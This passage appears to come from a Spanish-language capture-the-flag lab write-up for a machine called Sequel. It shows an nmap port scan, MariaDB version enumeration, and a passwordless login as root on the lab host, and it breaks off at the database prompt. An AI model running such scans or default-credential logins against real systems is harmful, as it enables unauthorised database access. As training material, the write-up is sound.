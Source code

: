     dir

11. *What symbol do we use to comment out parts of the code?* (¿Qué símbolo solemos utilizar para commentar partes del código?)

    \#

## MÁQUINA SEQUEL

### Enumeración de servicios y recopilación de información sensible

Realizo un escaneo de todo el rango de puertos TCP mediante la herramienta `Nmap`.

```
# nmap -p- -T5 -vv 10.129.107.33

Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE REASON
3306/tcp open  mysql   syn-ack ttl 63
```

Veo que el puerto 3306 de `MySQL` está abierto, por lo que utilizo las flags -sC y -sV para aplicar scripts básicos de enumeración e intentar conocer la versión que se está ejecutando.

```
# nmap -p3306 -sCV -oN enumPorts 10.129.107.33

PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
|_sslv2: ERROR: Script execution failed (use -d to debug)
| mysql-info:
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 66
|   Capabilities flags: 63486
|   Some Capabilities: LongColumnFlag, Support41Auth, SupportsCompression, Speaks41ProtocolOld, IgnoreSpaceBeforeParenthesis, FoundRows, ODBCClient, ConnectWithDatabase, SupportsLoadDataLocal, IgnoreSigpipes, InteractiveClient, SupportsTransactions, Speaks41ProtocolNew, DontAllowDatabaseTableColumn, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: EFo}G)4j;&M2Ow*iSE=B
|_  Auth Plugin Name: mysql_native_password
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
```

Como solo existe este puerto abierto y no tenemos credenciales, intento conectarme con usuarios por defecto (admin, root...) sin proporcionar contraseña.

```
$ mysql -uadmin -h 10.129.107.33
ERROR 1045 (28000): Access denied for user 'admin'@'10.10.14.61' (using password: NO)


$ mysql -uroot -h 10.129.107.33
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 81
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```